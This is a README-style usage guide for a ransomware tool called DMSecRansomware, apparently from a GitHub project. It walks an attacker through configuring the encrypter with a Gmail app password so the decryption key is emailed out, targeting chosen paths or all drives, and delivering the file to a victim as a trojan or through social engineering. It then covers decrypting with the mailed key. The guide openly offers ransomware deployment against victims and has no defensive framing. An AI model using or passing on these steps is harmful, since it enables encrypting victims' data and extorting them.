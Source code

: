 # How to use DMSecRansomware

#### **Author**: [Dhrumil Mistry](https://github.com/dmdhrumilmistry)

## Encrypting data
- Turn on 2FA in attacker's gmail account.
- Create app password
- Update `dmsec_ransomware.py` with email and app password to login to your gmail account. This is used to receive key to decrypt the files.

  ```python
  encrypter = DMSECEncrypter(PATHS, gmail='yourgmailid', passwd='yourapppassword')
  ```
- Specify path which is to be encrypted.
- If all the drives are to be decrypted do not pass PATHS to the DMSECEncrypter

  ```python
  encrypter = DMSECEncrypter(gmail='yourgmailid', passwd='yourapppassword')
  ```
- Create a trojan or use social engineering and send file to the victim.
- Wait for victim to execute the trojan.


## Decrypting Data
- Use `decrypter.py` to decrypt the encrypted files.
- Edit paths to be decrypted in `decrypter.py` file. If all the drives are to be decrypted do not pass PATHS to DMSECDecrypter

  ```python
  encrypter = DMSECDecrypter(KEY)
  ```
- Use the key which was received on mail to decrypt the data

